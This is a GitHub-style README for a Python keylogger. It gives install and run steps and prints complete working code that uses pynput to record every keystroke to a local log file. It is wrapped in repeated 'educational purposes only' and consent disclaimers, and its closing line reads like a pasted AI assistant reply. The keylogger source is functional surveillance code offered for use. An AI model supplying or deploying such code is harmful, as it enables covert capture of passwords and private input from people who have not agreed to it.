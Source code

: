

# Python Keylogger

A simple, educational keylogger written in Python using the `pynput` library to capture and log keystrokes. This project is designed to demonstrate how keyboard events can be captured programmatically. **This code is for educational purposes only**—please ensure that you have explicit consent before using this software on any system.

---

## Table of Contents

- [Overview](#overview)
- [Features](#features)
- [Installation](#installation)
- [Usage](#usage)
- [How It Works](#how-it-works)
- [License](#license)
- [Disclaimer](#disclaimer)

---

## Overview

This Python keylogger captures and logs keystrokes from the keyboard to a local file. The script runs in the background, capturing all keyboard inputs and appending them to a log file (`log.txt`). 

**Note**: This project is intended for educational purposes, demonstrating basic keylogging functionality in Python. Unauthorized use of keyloggers is illegal and unethical. 

---

## Features

- **Keystroke Logging**: Records all keystrokes in real time.
- **Lightweight**: Minimal dependencies with only `pynput` required.
- **Cross-platform**: Should work on Windows, macOS, and Linux.
- **Simple Output**: Logs are saved to a plain text file (`log.txt`).

---

## Installation

Follow these steps to install and run the keylogger on your local machine:

1. **Clone the repository**:

   ```bash
   git clone https://github.com/yourusername/python-keylogger.git
   cd python-keylogger
   ```

2. **Install the required dependencies**:

   This project uses the `pynput` library to capture keystrokes. You can install it with `pip`:

   ```bash
   pip install pynput
   ```

---

## Usage

1. **Run the script**:

   To start the keylogger, run the following command:

   ```bash
   python keylogger.py
   ```

   The script will start capturing keystrokes and append each key press to a file named `log.txt` in the current directory.

2. **Stopping the script**:

   To stop the keylogger, press `Ctrl + C` in the terminal, or terminate the process via your operating system's task manager.

3. **View the log**:

   Open `log.txt` to view the captured keystrokes. Each keypress will be recorded on a new line.

---

## Code Example

Below is the core code of the keylogger:

```python
# Install the pynput library
# pip install pynput

from pynput.keyboard import Listener

def log_keystroke(key):
    # Convert key to string and remove unwanted characters
    key = str(key).replace("'", "")
    
    # Write the captured key to a log file
    with open("log.txt", "a") as f:
        f.write(key + "\n")

# Set up the listener to log keypress events
with Listener(on_press=log_keystroke) as listener:
    listener.join()
```

This code listens for keyboard events using the `pynput` library and appends every keypress to a text file called `log.txt`.

---

## How It Works

1. **Key Capture**: The keylogger listens for keystrokes via the `Listener` class from `pynput.keyboard`.
2. **Logging**: When a key is pressed, it is captured and written to the file `log.txt`.
3. **Background Operation**: The keylogger runs as a background process until manually stopped by the user.

---

## License

This project is licensed under the MIT License. See the [LICENSE](LICENSE) file for more information.

---

## Disclaimer

### **Important**: This code is intended for educational purposes **only**.

- **Ethical Usage**: Always use this software responsibly and ensure you have explicit consent before deploying it.
- **Illegal Use**: Unauthorized usage of keyloggers is illegal and can result in criminal charges. **Do not use this code for malicious activities.**
- **Creator’s Disclaimer**: The author of this project is not responsible for any misuse of the code.


### **Note on Ethics**:

- Do not deploy this keylogger on any machine without the explicit consent of the owner.
- Always follow ethical guidelines and comply with all relevant laws regarding data privacy and security.

---

With this README, your project now includes important information about installation, usage, and the ethical considerations of using a keylogger.
